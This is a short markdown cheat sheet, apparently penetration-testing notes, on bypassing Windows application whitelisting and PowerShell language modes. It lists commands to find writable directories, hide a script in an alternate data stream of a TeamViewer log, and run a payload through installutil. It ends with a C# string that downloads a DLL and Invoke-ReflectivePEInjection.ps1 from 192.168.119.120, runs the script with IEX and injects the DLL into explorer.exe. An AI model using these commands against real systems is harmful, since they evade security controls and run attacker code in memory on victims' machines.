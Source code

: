 # Look for perms


- Search for writable directories
```cmd
accesschk.exe "student" C:\Windows -wus
```
- Search for executable directories:
```cmd
icacls.exe C:\Windows\Tasks
```

- alternate data streams
```
type test.js > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:test.js"
```

- psh language modes:
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Tools\Bypass.exe
```

- reflective dll loader, put this in bypass.exe
```
String cmd = "$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.119.120/met.dll');(New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/Invoke-ReflectivePEInjection.ps1') | IEX; $procid = (Get-Process -Name explorer).Id; Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid";
```
